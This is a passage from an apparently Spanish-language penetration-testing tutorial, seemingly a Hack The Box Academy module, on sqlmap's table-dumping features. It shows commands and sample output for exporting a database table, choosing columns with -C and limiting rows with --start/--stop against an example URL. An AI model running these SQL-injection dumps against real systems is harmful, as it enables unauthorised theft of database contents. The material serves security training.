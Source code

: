 La salida de la consola muestra que la tabla se ha volcado en formato CSV a un archivo local, `users.csv`.

Consejo: Además del CSV predeterminado, podemos especificar el formato de salida con la opción `--dump-format` a HTML o SQLite, para que podamos investigar más tarde la base de datos en un entorno SQLite.

![sqlite](https://academy.hackthebox.com/storage/modules/58/pVBXxRz.png)

---

## Table/Row Enumeration

Cuando se trabaja con tablas grandes con muchas columnas y/o filas, podemos especificar las columnas (por ejemplo, solo las columnas `name` y `surname`) con la opción `-C`, de la siguiente manera:


```r
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname

...SNIP...
Database: testdb

Table: users
[4 entries]
+--------+------------+
| name   | surname    |
+--------+------------+
| luther | blisset    |
| fluffy | bunny      |
| wu     | ming       |
| NULL   | nameisnull |
+--------+------------+
```

Para restringir las filas según su número ordinal dentro de la tabla, podemos especificar las filas con las opciones `--start` y `--stop` (por ejemplo, desde la 2ª hasta la 3ª entrada), de la siguiente manera:


```r
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --start=2 --stop=3

...SNIP...
Database: testdb

Table: users
[2 entries]
+----+--------+---------+
| id | name   | surname |
+----+--------+---------+
| 2  | fluffy | bunny   |
| 3  | wu     | ming    |
+----+--------+---------+
```

---
